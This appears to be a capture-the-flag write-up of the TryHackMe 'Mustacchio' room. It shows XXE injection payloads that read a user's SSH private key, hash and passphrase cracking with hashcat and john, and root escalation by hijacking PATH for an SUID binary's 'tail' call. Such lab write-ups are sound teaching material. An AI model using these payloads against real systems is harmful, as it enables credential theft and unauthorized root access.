

# TryHackMe (Mustacchio)

## Challenge: 


## Solution:
This challenge requires us to use XXE Injection to obtain the SSH private key to login as Barry. Following that, it requires the use of unquoted service path for privilege escalation.

To start off, I used `threader3000` and found that ports 22, 80 and 8763 were open. Next, I ran an `nmap` scan which revealed the services running on those ports. Port 22 is running an SSH server while port 80 and 8765 were web servers.


Next, I ran `dirsearch` to uncover directories on the web servers and found a directory called `custom`.


Following that, I went to `/custom` directory and clicked on the `js` subfolder. This revealed a `users.bak` file which could possibly contain the users database.


Using `sqlitebrowser users.bak`, I managed to find the admin credentials. The password seems to be in a hash format.  


Using `hash-identifier`, the hash was likely to be in SHA1 format.


Next, I ran `hashcat` on the hash, specifying the mode as 100 for SHA1 hash. I managed to obtain the password `bulldog19`.


With the newly found credentials of `admin:bulldog19`, I was able to login to the admin panel.


It seems that I was able to add a comment on the website.


Viewing the source code of the website, I found a file called `/auth/dontforget.bak` and a user named `Barry`.


After downloading `/auth/dontforget.bak`, I opened it and inferred that it could be the format for the add comment input box.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

I suspected that it could be vulnerable to XXE Injection, and I performed an external entity check. 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <comment>
  <name>John</name>
  <author>&example;</author>
  <com>kk</com>
 </comment>
```

Indeed, it is vulnerable to XXE Injection attack, which could allow us to exfiltrate files.


Next, I decided to retrieve `/home/barry/.ssh/id_rsa` file, which is the private SSH key for Barry. I used the following command to obtain the file in plaintext.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///home/barry/.ssh/id_rsa'>]>
<comment>
    <com>&test;</com>
</comment>
```


However, as seen from the screenshot above, the SSH key was no longer in the correct format. Hence, I decided to encode the private SSH key in Base64 before exfiltrating it. I used the following command to exfiltrate `/home/barry/.ssh/id_rsa` as a Base64-encoded string.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=/home/barry/.ssh/id_rsa'>>
<comment>
    <com>&test;</com>
</comment>
```


Decoding the Base64-encoded string, I obtained the following.


Since the SSH key was encrypted with a passphrase, I used `ssh2john` to convert it into a crackable format for `John the Ripper`. Next I ran `john tocrack_sshkey --wordlist=/usr/share/wordlists/rockyou.txt`, which gave me the password `urieljames`.


After setting the relevant permissions on the SSH key using `chmod 400 base64decoded_ssh_key`, I was able to use the key to login as barry using the command `ssh barry@10.10.119.62 -i base64decoded_ssh_key`. I managed to obtain the `user.txt` flag.


Moving on, I found a file called `live_log` on `/home/joe` directory with the SUID bit set. Running the file, it seems to be displaying the web server logs.


Next, I ran `strings live_log` and found that it was running the command `tail -f /var/log/nginx/access.log`. 



This could be vulnerable to PATH Variable manipulation as we could create a `tail` file and place it at the top of the PATH. This would allow us to obtain a root shell. 


I created a `tail` file which would run `/bin/bash`. Next, I changed the PATH such that `/tmp` would be at the top of the PATH. 


Finally, I was able to obtain a root shell and obtain the root flag.


